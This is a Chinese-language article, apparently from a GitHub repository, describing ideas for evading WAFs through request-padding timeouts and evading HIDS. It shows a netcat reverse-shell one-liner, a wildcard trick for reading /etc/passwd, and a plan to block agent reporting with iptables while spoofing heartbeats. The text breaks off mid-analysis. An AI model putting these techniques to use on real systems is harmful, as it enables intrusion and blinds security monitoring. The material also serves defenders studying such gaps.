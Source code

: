 # 安全产品绕过的一些思路

基于安全产品的攻防对抗一直比较热门的话题，各种绕过方式层出不穷，安全产品自身的防御能力是有限的，他不是一开发，部署完成就可以不管了，一劳永逸，防住所有攻击，他需要一个规则的持续完善，告警规则，拦截规则。只要是规则，就一定有疏漏，攻击者就能根据规则的疏漏绕过防护，防御者则根据绕过更新规则，最后演变成了规则的对抗，防御者就赌攻击者不知道内部告警规则。本文主要谈谈一个通用的安全产品绕过思路。

### WAF

WAF 的绕过已经是老生常谈的话题了，传统的对抗方式是正面对抗 waf 的规则，基于规则的疏漏，基于后端语言的一些特性，基于中间件处理数据的差异等等，这里不讲正面对抗，讲一下 WAF 工作模式的天然缺陷。

waf 的部署方式有多种，反向代理，物理串联，旁路模式等，用的比较多的是基于中间件做转发的架构，这种方式对现有业务的链路的侵入性较小

![waf架构](pic/waf架构.png)

基本的工作流程是用户请求先到转发服务，转发服务将请求转发到 waf 集群，转发服务根据 waf 集群检测结果决定是否拦截请求。这就有一个问题，转发服务需要等待waf集群检测结果才能决定是否拦截，如果发送的包特别大， waf 集群返回结果特别慢，转发服务器会一直等吗？

遇到这种情况 waf 往往有两种选择，一是设置超时时间，规定时间内没有返回结果直接放行，二是一直等。大多数业务复杂的公司会选择第一种方式，由于业务体量大，不可控因素太多，很可能就有业务需要上传大文件，并且具体有多大不可估计，不确定 waf 的算力能否短时间内计算出结果，如果强行等待会使此类接口响应异常慢，最终影响的业务。

那么问题就来了，RFC 规定里并没有限制 POST 包的大小，也就是说 请求包能无限大，理论上 waf 集群检测的时间也会无限长，只要在攻击包中添加大量无用数据，使 waf 检测超时，那么转发服务器就会直接放行，从而绕过waf。

### HIDS

绕过 HIDS 可以说是最简单的，也可以说是最难的，说他简单是因为技术上讲在拿到机器权限后想要干扰上面一个进程正常工作有无数种方法，说他难是因为要拿到机器权限。

以实际场景来讲 HIDS 的绕过，假设有一台机器存在命令执行漏洞，你想完全控制机器，留后门也好，扫内网也好，但这台机器上装有 HIDS ，在执行命令时稍微不注意就会出发告警，然后GG，你该怎么办？你需要绕 HIDS。

HIDS 根据实现原理有不同的绕过方式，这里列几个：

1. 上传自己的 bash

2. cp bin/bash test  nc -e test 192.168.11.1 6666

3. 进程注入
4. 利用 linux 执行命令的特性 cat /et?/pass??

这些方式不同用，需要根据 HIDS 的实现来确认，比如反弹 shell 检测，HIDS 一般会检测两点，一是交互式 shell，二是 shell 进程输入输出是一个远程 socket，那 hids 怎么判断进程是否是交互式 shell 呢？进程名，那就改一下进程名呗。

这里再讲一个通用绕过思路：网络阻断。

HIDS 的 Agent 只会负责收集主机信息，并将主机信息发送至接收端，由接收端来做告警，只要能阻止 Agent 上报信息，就能让 HIDS 闭嘴。一个简单粗暴的方法就是 iptable 拒绝掉与接收端的通信，我怎么知道接收端的地址？看进程呗，常见的 HIDS 进程名。但这种方式不够优雅，因为强行阻断网络连接会使接收端显示这个机器离线，当然，对于大型企业来说，装有 HIDS 的资产上千上万台，每天离线，变更的机器有很多，你把这台机器搞离线了也没问题，HIDS 也不会告警（这要告警安全团队得炸）， 那么有没有更加优雅一点的方式呢？

要解决离线的问题就得知道接收端是怎么判断 Agent 离线的，很自然的就想到心跳包，如果能识别心跳包，做一个流量劫持，只放心跳包，其他全拦了，这就既能阻止告警，还能维持主机在线。心跳包长啥样这就得根据具体的 HIDS 分析了，这里分析某知名 HIDS 的心跳包特征

